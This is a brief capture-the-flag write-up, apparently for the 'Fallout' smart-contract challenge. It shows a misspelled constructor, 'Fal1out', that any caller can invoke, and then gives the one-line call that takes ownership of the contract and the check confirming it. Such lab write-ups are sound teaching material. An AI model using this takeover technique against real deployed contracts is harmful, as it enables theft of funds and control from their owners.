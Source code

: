 ## Take ownership of the contract

The only method to switch ownership of contract is inside constructor `Fallout`. 

However the function intended to be constructor has typo:
```
function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }
  ```

  `Fal1out` has now becomes a public callable function

  We proceed to call the function to take over contract:
  ```
  contract.Fal1out()
  ```

  Verify owner:
  ```
  contract.owner()
  // Output: player address
  ```
